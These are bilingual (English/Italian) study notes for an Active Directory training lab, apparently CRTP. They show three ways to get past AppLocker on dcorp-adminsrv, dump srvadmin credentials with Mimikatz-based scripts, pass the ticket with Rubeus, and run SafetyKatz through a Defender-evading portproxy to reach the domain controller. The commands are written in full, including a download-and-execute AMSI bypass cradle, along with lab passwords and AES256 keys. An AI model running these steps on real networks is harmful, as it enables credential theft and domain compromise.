

1. Escalate privilege to Domain Admin by abusing derivative local admin trough `dcorp-adminsrv` On `dcorp-adminsrv`, tackle application allowlisting using:
	1. Gaps in `Applocker` rules
	2. Disable `Applocker` by modifying GPO applicable to `dcorp-adminsrv`

>[!Important] 
> Derivative local admins privileges happens when:
> 1. `user1` has admin privileges on `machine1`
> 2. `machine1` has a user `username2`
> 	1. `username2` has admin privileges on `machine3`
> 3. `user1` gets derivative admin privileges on `machine3` using `username2`
> ![[Pasted image 20261122110911.png]]
> - In our case the flow is `student555` -> local admin on `dcrorp-adminsrv`, that has a user `srvadmin` -> `srvadmin` has privileges on `dcorp-mgmt` -> `student555` has privileges on `dcorp_mgmt`

> [!ABSTRACT] Learning objective
Starting with local administrator access to `dcorp-adminsrv`, understand **three alternative paths** that lead to the ability to execute `SafetyKatz` on **`dcorp-mgmt`**.
Path 1 — AppLocker path-rule gap → Kerberos keys:** `Invoke-TheKatEx-keys-stdx.ps1` → `srvadmin` AES256 key.
Path 2 — AppLocker path-rule gap → Vault credentials:** `Invoke-TheKatEx-vault-stdx.ps1` → `srvadmin` plaintext credentials.
**Path 3 — Modifiable AppLocker GPO:** change the applicable policy → execute the loader on `dcorp-adminsrv` → obtain `srvadmin` authentication material.
> **All three paths converge** on the **same shared final stage**: authenticate to `dcorp-mgmt` as `srvadmin`, stage the loader, and execute `SafetyKatz` there. We document that shared stage **only once**.

  

> [!NOTE] Obiettivo del laboratorio
> Il punto di partenza è sempre lo stesso: `student555` ha già privilegi di amministratore locale su `dcorp-adminsrv`. Il problema è che su questa macchina sono presenti limitazioni all'esecuzione di script e programmi.
> **Non stiamo descrivendo tre esecuzioni diverse di SafetyKatz su `dcorp-mgmt`.** Stiamo studiando **tre modi alternativi per arrivare ad avere il contesto `srvadmin`**, che consente l'accesso amministrativo a `dcorp-mgmt`. Una volta ottenuto, la parte finale è identica e viene spiegata una sola volta.

  



  
# 1. Prepare the PowerShell environment

The lab begins with InviShell and PowerView.
```powershell
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerView.ps1
```

## 1.2 Open a PowerShell remoting session on `dcorp-adminsrv`
**Where:** student workstation. **Target:** `dcorp-adminsrv`.

We already have local administrator access to this machine, so we establish an interactive remote PowerShell session.

```powershell
Enter-PSSession dcorp-adminsrv
```
- ![[Pasted image 20261122111610.png]]
- `Enter-PSSession` creates an interactive PowerShell remoting session. Subsequent commands are executed on the remote host until we leave that session.

## 1.3 Observe Constrained Language Mode (CLM)

FWe are in`dcorp-adminsrv`, so we try to download and execute the AMSI bypass script:
```powershell
iex (New-Object System.NET.WebClient).DownloadString('http://172.16.100.55/Amsi-Byp.txt')
```

However, the command fails with:
- `New-Object : Cannot create type. Only core types are supported in this language mode.`
- ![[Pasted image 20261122111811.png]]


So, we inspect the current PowerShell language mode:
```powershell
$ExecutionContext.SessionState.LanguageMode
```
- `ConstrainedLanguage`
- ![[Pasted image 20261122111827.png]]
 

**What this means:** PowerShell Constrained Language Mode restricts certain language features and .NET operations. Here, the use of `New-Object System.Net.WebClient` is prevented. This is not evidence that every PowerShell command is blocked or that AppLocker and CLM are the same control.

  
> [!IMPORTANT] Perché il comando non funziona?
> La shell è in **Constrained Language Mode**, una modalità di PowerShell che limita funzionalità considerate rischiose, per esempio l'istanziazione arbitraria di classi .NET. Per questo il tentativo con `New-Object` fallisce. **CLM e AppLocker sono concetti distinti**, anche se possono essere collegati alla configurazione di application control del sistema. La semplice presenza di una sessione amministrativa non significa che questi vincoli scompaiano.
> Questo viene definito all'interno dell'AppLocker.
> - **AppLocker** è una ==funzionalità di sicurezza integrata nei sistemi operativi Windows che permette agli amministratori di controllare quali app e file possono essere eseguiti dagli utenti o dai gruppi==

## 1.4 Inspect the effective AppLocker rules
We inspect which AppLocker rule collections apply to the machine:
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
- ![[Pasted image 20261122112518.png]]

Important output fields include:
- | `Action` | Whether a rule is `Allow` or `Deny`. |
- | `UserOrGroupSid` | The security principal to which the rule applies. |
- | `PathConditions` | Filesystem paths covered by a path rule. |

The notes identify permissive script rules for `Everyone`, including paths associated with `%PROGRAMFILES%` and `%WINDIR%`, as well as rules involving Microsoft-signed scripts.

  

> [!NOTE ] Dove sta il problema di questa policy?
 Le regole permettono di eseguire script presenti in determinate directory. Se un utente con sufficienti permessi può **scrivere** uno script in uno di quei percorsi consentiti, una regola troppo ampia può rendere inefficace il controllo previsto. La criticità dipende quindi dalla combinazione di **regola di esecuzione** e **permessi di scrittura**, non soltanto dal nome della cartella.

  
> [!IMPORTANT] Common lab environment
> The lab also uses an HFS HTTP server at `172.16.100.55` for hosting `Loader.exe` and `SafetyKatz.exe`. Its role is to make these files available to the lab hosts. We refer to the same HFS server in the shared execution stage instead of repeating its configuration in every path.

  

---

  

# 2. PATH 1 — AppLocker path-rule gap → `srvadmin` Kerberos keys
**Goal:** take advantage of the allowed script path to inspect memory-related authentication material on `dcorp-adminsrv` and identify a usable `srvadmin` Kerberos AES256 key.

## 2.1 Copy the keys script to the allowed directory
**Where:** student workstation. **Destination:** `dcorp-adminsrv`.

==🔴We know that we can run scripts that are in the `Program Files` folder==.

So we use the administrative `C$` share to copy the script into `Program Files`:
```powershell

Copy-Item C:\AD\Tools\Invoke-TheKatEx-keys-stdx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'

```
- ![[Pasted image 20261122115500.png]]

> In our tool we have a script that can execute `Mimikatz` without executing an `.exe`, that can be detected by the antivirus.  
> This script is: **Invoke-TheKatEx-keys-stdx.ps1**

> [!NOTE] Perché proprio Program Files?
Abbiamo visto che le regole di AppLocker consentono l'esecuzione di script in `Program Files`. 
Nel laboratorio, grazie ai privilegi amministrativi, possiamo anche copiarvi un file. Il punto debole è che la stessa directory risulta **scrivibile nel nostro contesto** e **considerata attendibile dalla regola di esecuzione**.


## 2.2 Execute the script on `dcorp-adminsrv`

```powershell
Enter-PSSession dcorp-adminsrv

cd 'C:\Program Files\'

.\Invoke-TheKatEx-keys-stdx.ps1
```
- ![[Pasted image 20261122153548.png]]


> [!NOTE] Che cosa abbiamo ottenuto?
> In questo primo percorso non stiamo ancora eseguendo `SafetyKatz` su `dcorp-mgmt`. 
> Stiamo invece utilizzando `dcorp-adminsrv` per individuare **materiale Kerberos relativo a `srvadmin`**. 
> L'idea è usare in seguito quel contesto di autenticazione per raggiungere `dcorp-mgmt`. Non bisogna confondere una chiave AES256 con una password in chiaro o con un ticket Kerberos: sono oggetti diversi.


**Path 1 result:** `srvadmin` AES256 authentication material → continue at **[Section 5 — Common convergence](#5-common-convergence-authenticate-as-srvadmin)**.
  

---

# 3. PATH 2 — AppLocker path-rule gap → `srvadmin` Vault credentials

**Goal:** use the same allowed-script-path weakness, but inspect **Windows Vault-related credentials instead of memory-derived Kerberos keys**.
## 3.1 Copy the Vault script
**Where:** student workstation. **Destination:** `dcorp-adminsrv`.

```powershell
Copy-Item C:\AD\Tools\Invoke-TheKatEx-vault-stdx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```

The copy uses the **same allowed directory and administrative share** already explained in Path 1. The screenshot of that file-transfer mechanism is therefore shown only once, in section 2.1.

> [!NOTE] Che cosa cambia rispetto al metodo 1?
> Non cambia il problema di AppLocker: sfruttiamo ancora il percorso consentito `Program Files`. 
> Cambia **la fonte delle credenziali** che vogliamo esaminare. 
> Nel metodo 1 cerchiamo materiale relativo alle chiavi Kerberos; qui esaminiamo informazioni recuperate da **Windows Vault / credenziali memorizzate**.


## 3.2 Execute the Vault script

**Where:** `dcorp-adminsrv`, in the already selected `C:\Program Files\` directory.

  

```powershell
Enter-PSSession dcorp-adminsrv

cd 'C:\Program Files\' 

.\Invoke-TheKatEx-vault-stdx.ps1
```
- ![[Pasted image 20261122120318.png]]

The recorded output identifies credentials associated with `dcorp\srvadmin`, including the lab password:
```text
TheKeyUs3ron@anyMachine!
```

> [!NOTE] Vault e LSASS non sono la stessa cosa
> Questo script restituisce nel laboratorio una **password in chiaro** associata a `srvadmin`. 
## 3.3 Create a network-only logon for `srvadmin`

**Where:** student workstation, in the administrative command prompt described by the lab.
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

The command prompts for the `srvadmin` password found in the preceding output and opens a new command prompt with a separate **network authentication context**.
- `/user:dcorp\srvadmin` identifies the account for outbound credentials.
- `/netonly` requests network-only credentials; the local process identity does **not** automatically change to `srvadmin`.
- `cmd` starts a command shell.

  
> [!NOTE] Perché `/netonly`?
> Il processo locale continua a essere associato all'utente che l'ha avviato, ma per autenticarsi verso risorse remote Windows può usare le credenziali di `srvadmin`. 
> Quindi **`whoami` nella shell locale non dimostra quale identità verrà usata verso la rete**. L'obiettivo di questo metodo è arrivare alla stessa possibilità di accesso remoto che otteniamo con una chiave Kerberos nel metodo 1.

**Path 2 result:** usable `srvadmin` network credentials → continue at **[Section 5 — Common convergence](#5-common-convergence-authenticate-as-srvadmin)**.

---
# 4. PATH 3 — Modify the AppLocker GPO affecting `dcorp-adminsrv`

**Goal:** use an Active Directory permission relationship to change the policy applied to `dcorp-adminsrv`, then observe the difference in executable allowlisting.

This path is distinct from Paths 1 and 2: rather than relying on an already-permitted script directory, it relies on **write permissions over the GPO controlling AppLocker**.
## 4.1 Identify the GPO permission chain

The lab documents the following relationship:

```text
student555
    |
    v
RDPUsers group
    |
    | GenericWrite on GPO
    v
AppLocker GPO
    |
    | linked/applied to
    v
Applocked OU
    |
    | contains
    v
dcorp-adminsrv
```
- ![[Pasted image 20261122140218.png|551]]
- ![[Pasted image 20261122140245.png|503]]

  
**Interpretation:** membership in `RDPUsers` and the recorded `GenericWrite` permission create a potential GPO-control path affecting `dcorp-adminsrv`. Whether a particular GPO modification is effective depends on permissions, policy scope and processing.

  

> [!NOTE] Perché la GPO è importante?
> `student555` fa parte di `RDPUsers`. 
> Questo gruppo ha **`GenericWrite`** sulla GPO di AppLocker, che si applica all'OU `Applocked` contenente `dcorp-adminsrv`.
>  Quindi esiste un legame di autorizzazioni che permette di influire sulla configurazione di sicurezza della macchina **indirettamente tramite Active Directory**. 
>  Questa strada è diversa dall'abuso di una regola troppo permissiva.

## 4.2 Observe the executable block
**Where:** first the student workstation, then a remote `cmd` on `dcorp-adminsrv`

Let's try to upload `Loader.exe` on `dcorp-adminsrv`:

```powershell
 echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-adminsrv\C$\Users\Public\Loader.exe
 winrs -r:dcorp-adminsrv cmd

```

Then let's configure a TCP forwarding rule:

```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.55
```

And now attempt to execute `SafetyKatz` on `dcorp-adminsrv` using the `Loader.exe` and the tcp forward to downlaod it:
```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::evasive-keys" "exit"
```
- ![[Pasted image 20261122141955.png]]

**Observed result:** AppLocker prevents the execution of `Loader.exe`.

**Command notes:**
- `xcopy` | Copies the loader to the remote administrative share. |
- `echo F | xcopy` | Feeds the file-choice response to the interactive `xcopy` prompt in this lab. |
- `winrs -r:dcorp-adminsrv cmd` | Starts a remote command shell on `dcorp-adminsrv`. |
- `netsh interface portproxy add v4tov4` | Creates an IPv4 TCP forwarding rule. |
- `listenaddress=0.0.0.0` | Binds the listener to available IPv4 interfaces; it does **not** mean loopback only. |
- `connectaddress=172.16.100.55` | Defines the remote HFS destination. |

  

> [!NOTE] Perché questo tentativo è utile?
> Qui vogliamo vedere **l'effetto concreto di AppLocker**: il file eseguibile è presente sul disco, ma il controllo di application allowlisting ne impedisce l'avvio. 
> È un punto di confronto per il passaggio successivo. `portproxy` inoltra connessioni TCP verso HFS, ma **non garantisce di per sé alcun bypass dell'antivirus** e non è la ragione per cui una regola AppLocker viene rimossa.

## 4.3 Edit the AppLocker policy through GPMC

**Where:** student workstation, using the ==**administrative command prompt**== :.
```powershell
gpmc.msc
```

Then use this  GPMC navigation path:

```text
Forest
  → Domains
    → dollarcorp.moneycorp.local
      → Applocked
        → AppLocker GPO
          → Edit
            → Policies
              → Windows Settings
                → Security Settings
                  → Application Control Policies
                    → AppLocker
                      → Executable Rules
                        → Remove the relevant rule (lab action)
```
- ![[Pasted image 20261122142646.png|514]]
- ![[Pasted image 20261122142733.png|510]]

  

**Observed lab action:** the relevant AppLocker executable rule is removed from the GPO. This is a security-impacting policy change, not merely a local execution trick.

  

> [!NOTE] Che cosa stiamo modificando?
 Con `gpmc.msc` apriamo **Group Policy Management**.
Il laboratorio mostra una modifica alla regola di esecuzione dei programmi nella GPO che si applica a `dcorp-adminsrv`. 
La differenza rispetto ai primi due percorsi è fondamentale: **lì sfruttiamo una regola già permissiva; qui cambiamo la regola stessa** perché l'account/gruppo ha il permesso di intervenire sull'oggetto di policy.

## 4.4 Refresh policy and compare the result

**Where:** `dcorp-adminsrv`.
```powershell
gpupdate /force
```
- ![[Pasted image 20261122142916.png]]

Now we try  **the same Loader/SafetyKatz command :

```powershell
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::evasive-keys" "exit"
```
- ![[Pasted image 20261122152656.png]]

**Recorded result:** the executable runs after the GPO change, `SafetyKatz` is executed.
  

> [!NOTE] Perché `gpupdate /force`?
> `gpupdate /force` forza un nuovo processamento delle policy. N


**Path 3 result:** `srvadmin` authentication material obtained in the recorded lab → continue at **[Section 5 — Common convergence](#5-common-convergence-authenticate-as-srvadmin)**.

---

# 5. Common convergence — Authenticate as `srvadmin`

The three paths have the **same target**: an authentication context that can access `dcorp-mgmt` with `srvadmin` privileges. The authentication method depends on the artifact recovered:

| **1 — Keys script** | `srvadmin` AES256 Kerberos key | Rubeus / Kerberos ticket |
| **2 — Vault script** | `srvadmin` plaintext password | `runas /netonly` (already shown in §3.3) |
| **3 — AppLocker GPO** | `srvadmin` AES256 Kerberos material | Same Rubeus command as Path 1 |
  
## 5.1 Kerberos option for Paths 1 and 3

**Where:** student workstation, administrative shell.

The following **single command** is shared by Paths 1 and 3 and **==gives access to ==** `dcorp-adminsrv` as `srvadmin`:
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:srvadmin /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```


> [!NOTE] Come convergono i percorsi 1 e 3?
> Entrambi questi percorsi ci portano a una **chiave AES256 di `srvadmin`**. 
> Usiamo Rubeus per ottenere un TGT Kerberos e associarlo al contesto di rete della nuova shell.
> Anche qui `/createnetonly` significa che **l'identità locale della shell e quella usata per autenticarsi verso un servizio remoto possono differire**. 

## 5.2 Check the accessible machines with `srvadmin`

**Where:** a shell using the `srvadmin` network authentication context. We are on `dcorp-adminsrv`

```powershell
.  C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1

Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose
```
- ![[Pasted image 20261122121924.png]]

**Recorded finding:** `srvadmin` has administrative remote-access capability on `dcorp-adminsrv` and `dcorp-mgmt`.

  

> [!NOTE]  A cosa serve questa verifica?
> . Non ci basta possedere una password o una chiave: dobbiamo capire **su quali sistemi quell'account è autorizzato**. 
> Nel laboratorio l'output indica `dcorp-mgmt` come macchina raggiungibile con privilegi amministrativi tramite `srvadmin`.
  
## 5.3 Validate access to `dcorp-mgmt`
Now we try to understand if we can connect to `dcorp-mgmt` as `srvadmin` user.

**Where:** the shell authenticated on the network as `srvadmin`.
```powershell
winrs -r:dcorp-mgmt cmd
```
- ![[Pasted image 20261122153258.png]]


This uses Windows Remote Shell to open a remote command prompt on `dcorp-mgmt` with the available network authentication context.

  

> [!NOTE] Il vero punto di convergenza
> È questo il punto in cui i tre percorsi diventano uno solo. 
> Indipendentemente da come abbiamo ottenuto le credenziali di `srvadmin`, ora possiamo verificare l'accesso remoto a `dcorp-mgmt`. 
> **L'host di destinazione è `dcorp-mgmt`**, non `dcorp-adminsrv` (che era la macchina sfruttata per arrivarci). 

---
# 6. Shared final stage — Execute `SafetyKatz` on `dcorp-mgmt`

  
> [!IMPORTANT] Applies to Paths 1, 2 and 3
> The following commands are the **common final stage**. 
> They are not three different methods: they are the actions performed **after** the `srvadmin` access path has been established.
## 6.1 Stage `Loader.exe` on `dcorp-mgmt`
Now we are on `dcorp-adminsrv`.

**Where:** the authenticated source shell in the lab. **Destination:** administrative share on `dcorp-mgmt`.
```powershell
 echo Y | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```
- `xcopy` copies the loader to `C:\Users\Public\Loader.exe` on the remote computer.
- `echo Y |` sends `Y` to a prompt; the notes describe it as the affirmative response when the file already exists.
- `C$` is an administrative share, generally requiring sufficient privileges on the remote host.


> [!NOTE] 🇮🇹 Spiegazione — Perché copiamo Loader.exe?
> Fino a questo momento abbiamo ottenuto **accesso amministrativo** a `dcorp-mgmt`, ma non abbiamo ancora posizionato il programma che gli appunti usano per avviare il payload del laboratorio. 
> La copia attraverso `C$` dimostra anche l'importanza delle condivisioni amministrative nei percorsi di amministrazione remota. Il file viene messo sotto `C:\Users\Public` per essere disponibile sul computer di destinazione.

## 6.2 Understand the TCP forwarding recorded in the lab
We set the tcp forwarding on `dcorp-mgmt` to avoid `AMSI` block, in order to download `SafetyKatz.exe` from `student555` VM.

**Where:** command sent through WinRS to `dcorp-mgmt`.
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.55"
``` 
- ![[Pasted image 20261122123047.png]]

## 6.3 Execute the loader / SafetyKatz on `dcorp-mgmt`

Now we can run `SafetyKatz` on `dcorp-mgmt` using our authenticated `srvadmin` on `dcorp-adminsrv`.  
```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```
-  ![[Pasted image 20261122123125.png|648]]

> [!NOTE] Il risultato finale dei tre metodi
> Questa è la parte che volevamo raggiungere: **eseguire SafetyKatz su `dcorp-mgmt`**, dopo esserci arrivati tramite `srvadmin`. 
> Il percorso iniziale non cambia più il comando finale: che abbiamo trovato una chiave, una password oppure sfruttato una GPO modificabile, ora utilizziamo **lo stesso accesso a `dcorp-mgmt`**. 
  

---

# 7.  `svcadmin` Kerberos material

`SafetyKatz` gave us the `aes256` hash of `svcadmin` that can be used to access to `dcorp-mgmt`.

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- ![[Pasted image 20261122123420.png]]

  
> [!IMPORTANT] Administrative shell in the lab
> Tthis command is must be run from a command prompt opened as administrator on the student VM.
> ![[Pasted image 20261120160457.png]]


> [!NOTE] `srvadmin` vs `svcadmin`
> **`srvadmin`** è l'account che, nei tre percorsi, permette di arrivare amministrativamente a `dcorp-mgmt`. 
> **`svcadmin`** compare come ulteriore account nei risultati del laboratorio dopo l'analisi della macchina di management. 
> Sono quindi due livelli diversi della sequenza. La stringa fornita a `/aes256` è una **chiave Kerberos AES256**, non un hash `des_cbc_md4`. 

# 8. Open a remote command shell on `dcorp-dc` (Domain controller) from `dcorp-mgmt`

Now we can try to popup a shell directly on the domain controller `dcorp-dc`.

If `svcadmin` has privileges on the `domain controller` we can use:
```powershell
winrs -r:dcorp-dc cmd
```
- Then we check with `set`:
	- ![[Pasted image 20261122165947.png]]

Unlike the preceding command, this starts a remote `cmd` session rather than executing only one command and exiting. 
  

> [!TIP] CRTP exam takeaway
> Learn to draw the authorization chain before choosing a method.
>  The crucial questions are: **What do I control? Which policy restricts me? Which identity can I legitimately observe in the lab? Where does that identity have administrative access?** 
>  The three branches represent different weaknesses, while the final administrative path is shared.

  

> [!NOTE] Riepilogo finale
> Ricorda questa distinzione:
> - **Metodo 1:** regola AppLocker troppo permissiva → script sulle chiavi → AES256 di `srvadmin`.
> - **Metodo 2:** stessa debolezza AppLocker → script Vault → password di `srvadmin`.
> - **Metodo 3:** permessi eccessivi sulla GPO → modifica delle regole AppLocker → esecuzione del loader su `dcorp-adminsrv` → materiale di `srvadmin`.
> 
> **Convergenza:** `srvadmin` → accesso a `dcorp-mgmt` → copia del loader → TCP forwarding → SafetyKatz su `dcorp-mgmt`.
>
> Sono **tre percorsi di accesso**, non tre versioni del comando finale. Questa distinzione aiuta a non ripetere la stessa procedura e a capire quali sono le vulnerabilità differenti sfruttate nel laboratorio.


---
# GAPS in APPlocker
In this case we have very stupid rules:
- `Everyone` can run scripts in `ProgramFiles` directory.


In our tool we have a script that can execute `Mimikatz` without executing an `.exe`, that can be detected by the antivirus.The script is:
- `Invoke-TheKatEx-keys-stdx.ps1`

>[!NOTE] 
>This Script extract the credentials stored into LSSAS and shows us the hashes.

## Invoke-TheKatEx-keys-stdx.ps1
Since we can run scripts in the folder `Program Files` we are able to upload this script on `dcorp-adminsrv` and run it on `Program Files` folder.
From our student VM we can do:
```powershell
Copy-Item C:\AD\Tools\Invoke-TheKatEx-keys-stdx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- ![[Pasted image 20261122115500.png]]

So now on `dcorp-adminsrv` we do:
```powershell
Enter-PSSession dcorp-adminsrv
cd 'C:\Program Files\'
.\Invoke-TheKatEx-keys-stdx.ps1
```
- ![[Pasted image 20261122153548.png]]
- We can see the credentials and the hases of the credentials.
- If there is a session of `srvadmin` you can use it to ask to tgt a ticket.


SO if we do on our `student555` machine as administrator:
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:srvadmin /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
- if we run `winrs -r:dcorp-mgmt cmd` we can see we are on `dcorp-adminsrv` and we can connect to `dcorp-mgmt` with `srvadmin` creds
- ![[Pasted image 20261122153258.png]]

## Invoke-TheKatEx-vault-stdx.ps1
We could do the same thing using the `Invoke-TheKatEx-vault-stdx.ps1` script that can extract vault credentials stored in the local registry and not with `LSSAS`.

The procedure is the same:
From our student VM we can do:
```powershell
Copy-Item C:\AD\Tools\Invoke-TheKatEx-vault-stdx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- ![[Pasted image 20261122115500.png]]

So now on `dcorp-adminsrv` we do:
```powershell
cd 'C:\Program Files\'
.\Invoke-TheKatEx-vault-stdx.ps1
```
- ![[Pasted image 20261122120318.png]]
- Here we can see that there is a task run by `dcorp\srvadmin` with credential `TheKeyUs3ron@anyMachine!`

In fact if we run a cmd on our student machine in `admin mode` and we run:
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```
- we obtain a shell using the plain text password `TheKeyUs3ron@anyMachine!`


Now we can try to list the machines in which `srvadmin` has local admin privileges:
```powershell 
. C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

.  C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1

Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose
```
- ![[Pasted image 20261122121924.png]]
- We can see that 'srvadmin' has local admin privileges on `dcorp-adminsrv` and on `dcorp-mgmt`.


So let access to `dcropt-mgmt` leveraging on `srvadmin` creds found on `dcorp-adminsrv`.

In the shell we created on `dcorp-adminsrv` with `srvadmin` we copy the Loader on `dcorp-mgmt`:
```powershell
 echo Y | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
```
- `Y` if it is already in the folder.
### 6.5 Portproxy configuration recorded in the lab
To bypass the block, we can set a tcp forwarding, in order to make Windows defender think we are just doing a request on `localhost`:
```powershell
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.55"
```
- ![[Pasted image 20261122123047.png]]
- `netsh interface portproxy add v4tov4` configures IPv4-to-IPv4 TCP forwarding. 
- `listenaddress=0.0.0.0` binds the listener to available IPv4 interfaces (not exclusively to loopback), 
- `listenport=8080` chooses the local listener port 
- `connectaddress`/`connectport` define the forwarding destination. 

```text
Connection to 127.0.0.1:8080 on dcorp-mgmt
                 │
                 └── TCP forwarding ──> 172.16.100.55:80 (HFS)
```


> [!NOTE] 
> Il comando crea un listener TCP sulla porta 8080 di `dcorp-mgmt` che inoltra le connessioni verso la porta 80 del server HFS. 
> `0.0.0.0` significa che l'ascolto non è limitato a `127.0.0.1`; il programma può comunque collegarsi tramite loopback. 
> L'idea è **setto un TCP forwarding in modo da trasformare le richieste a 127.0.0.1 : 8080 in richieste verso 172.16.100.55:80**, così windows defender non blocca l'esecuzione.


### 6.6 Original localhost-based invocation and evidence

Now we are ready to perform the remote execution of `Safetykatz.exe` on `dcorp-mgmt`

```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```
- ![[Pasted image 20261122123125.png|648]]

### 8.2 Original Rubeus

What we want to do now, is to request a ticket to kerberos using the `aes256` hash credentials of `svcadmin` in order to connect a shell to `dcorp-mgmt`

In our student machine with `admin privileges`:
```powershell

C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
- ![[Pasted image 20261122123420.png]]
	- `C:\AD\Tools\Loader.exe` | Runs the loader located on the lab workstation. |
	- `-path C:\AD\Tools\Rubeus.exe` | Specifies the Rubeus executable that the loader is intended to run. |
	- `-args asktgt` | Supplies Rubeus arguments and selects the TGT-request functionality. |
	- `/user:svcadmin` | Identifies the Kerberos account involved in the request. |
	- `/aes256:<key>` | Supplies a Kerberos AES256 long-term key; the lab command contains its original hexadecimal value. |
	- `/opsec` | Requests Rubeus's alternative, operational-security-oriented behavior; it is not a guarantee of stealth.  
	- `/createnetonly:C:\Windows\System32\cmd.exe` | Creates a process with a separate **network-only** logon context.  
	- `/show` | Requests display of ticket-related information produced by the operation.
	- `/ptt` | Requests submission of the obtained ticket into the relevant Windows logon session (*pass-the-ticket*). |

>[!IMPORTANT] This command can be executed only in a cmd opened as **administrator** on the student VM
>![[Pasted image 20261120160457.png]]


> [!NOTE] Cosa fa il comando?
 Il programma `Loader.exe` richiama `Rubeus.exe` con i parametri indicati. 
 `asktgt` riguarda la richiesta di un Ticket Granting Ticket per l'account `svcadmin`, mentre `/aes256` identifica la **chiave Kerberos AES256** utilizzata in quella richiesta: **non è un hash `des_cbc_md4`**. 
 La parte `/createnetonly` crea un nuovo processo `cmd.exe` con un contesto specifico per le autenticazioni verso la rete; `/ptt` riguarda l'associazione del ticket a una sessione di accesso. È importante non confondere questi meccanismi con un cambio dell'identità locale del processo.


# Disable Applocker by modyfing GPO applicable to `dcorp-adminsrv`

We can escalate to `dcorp-mgmt` also leveraging on `Group Policies`

In fact, we can see that each `student` user ha access to `RDPUsers` group.

`RDPUsers` has `Generic Write` permissions on `APPLOCKER GPO`.

`APPLockerGPO` affects `Applocked OU`. 

In `Applocked OU` there is `DCORP-ADMINSRV` .

